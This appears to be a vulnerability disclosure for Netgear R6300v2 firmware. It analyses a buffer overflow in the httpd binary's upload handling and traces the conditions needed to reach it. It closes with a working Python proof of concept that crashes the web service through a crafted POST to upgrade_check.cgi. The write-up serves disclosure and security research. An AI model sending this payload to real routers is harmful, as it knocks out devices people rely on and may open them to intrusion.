







# Basic Information

Supplier: Netgear

Product: R6300v2

Firmware version: R6300v2-V1.0.4.8_10.0.77、R6300v2-V1.0.4.36_10.0.93

Type: Buffer overflow vulnerability

Firmware：[R6300v2-V1.0.4.8_10.0.77.chk](./R6300V2_httpd_1/R6300v2-V1.0.4.8_10.0.77.chk)

# Vulnerability description
There is a buffer overflow vulnerability in the binary file of the R6300v2 firmware version. The vulnerability is located in the sub_18334 function (R6300v2-V1.0.4.8_10.0.77 version) in the `/usr/sbin/httpd` file, `memcpy(s, src, v2)` When copying continuous `v2` bytes of data starting from `src` to the memory area with `s` as the starting address, the size of the target memory area (`s`) will not be enough to accommodate the source memory area ( `src`) data, this is because the value of v2 is to read four consecutive bytes from the memory pointed to by the `src` pointer, and combine them into a 32-bit value in a specific byte order (according to the index value) Integer, this value may be greater than the memory length of variable s, causing buffer overflow. The relevant information is shown in the figure below.

Previously, it was necessary to bypass the judgment of `strcmp((const char *)src, "*#$^")`. `src` must be `*#$^`, and you can add `0x00` character after it to cause truncation.



Through IDA cross-reference, we know that function sub_18334 is called in function sub_12CC8, in which variable v77 is the actual parameter passed in. By analyzing the judgment conditions, we can know that variable s1 needs to satisfy the requirement of containing `'name="mtenFWUpload"\r\n\r\ n'` string, and then use the data following the string as the parameter of the sub_18334 function.
At the same time, if you want the program to execute to this position, the variable `v117` must be 1, otherwise the sequence will jump out, but the value of v117 is assigned to 0 in line 713, as shown in the figure below.






Observing the program further, we can find that the http request needs to contain the `upgrade_check.cgi` character to return to the original while loop.




But in order to reach this place, certain conditions must be met, that is, to reach LABEL_272, as shown in the figure below.



# Vulnerability verification


The constructed POC program is as follows

```Python
import requests

data1 = "*#$^"
data1 += "\x00\xFF\xFF\xFF"
data1 = data1.ljust(0xFFFF, 'A')


payload = ''
payload += 'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += 'Host: 192.168.1.1\r\n'
payload += 'Content-Disposition: AAAA\r\n'
payload += 'Content-Length: {}\r\n'.format(len(data1) + 1)
payload += 'Content-Type: application/octet-stream\r\n'
payload += 'name="mtenFWUpload"\r\n'
payload += '\r\n'
payload += data1

headers = {'Content-Length': str(len(payload))}

url = 'http://192.168.1.1:80/upgrade_check.cgi'
response = requests.post(url, headers=headers, data=payload)

print(response.text)
```

In order to verify the existence of the vulnerability, use FirmAE to simulate the firmware, as shown below, the service can be started successfully.



Run the poc script, refresh the page, and find that the service crashes.



